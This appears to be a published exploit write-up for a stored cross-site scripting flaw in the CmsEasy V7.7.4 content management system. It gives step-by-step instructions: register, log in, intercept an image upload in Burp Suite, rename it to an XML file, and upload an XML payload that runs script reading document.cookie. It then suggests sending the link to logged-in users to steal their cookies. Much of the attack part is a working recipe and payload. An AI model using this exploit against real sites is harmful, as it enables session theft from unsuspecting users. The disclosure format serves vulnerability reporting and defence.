






## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-Cross Site Scripting(XSS)
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:There is an XSS vulnerability in CmsEasy.V7.7.4_20210522. Attackers can steal users' cookies and other information by constructing malicious request packets
```

## How to Exploit

**Step 1：Register a user**



**Step 2:login with test1**



**Step 3:Visit the following connections to add content**

```javascript
http://192.168.174.1/index.php?case=manage&act=add&manage=archive
```



Upload a picture and grab it with burpsuite



then change the action 'uploadimgage' to 'uploadfile' and modify filename '3.jpg' to '3.xml',at the same time paste the exploit to the content.Then you can see the 3.xml has successfully upload:

```xml
<html>
	<head></head>
	<body>
	<something:script xmlns:something="http://www.w3.org/1999/xhtml">
	alert(document.cookie);
	</something:script>
	</body>
</html>
```



**Step 5：An attacker can send this malicious link to a logged in user to steal its cookie information **



## Reference

https://www.cmseasy.cn/


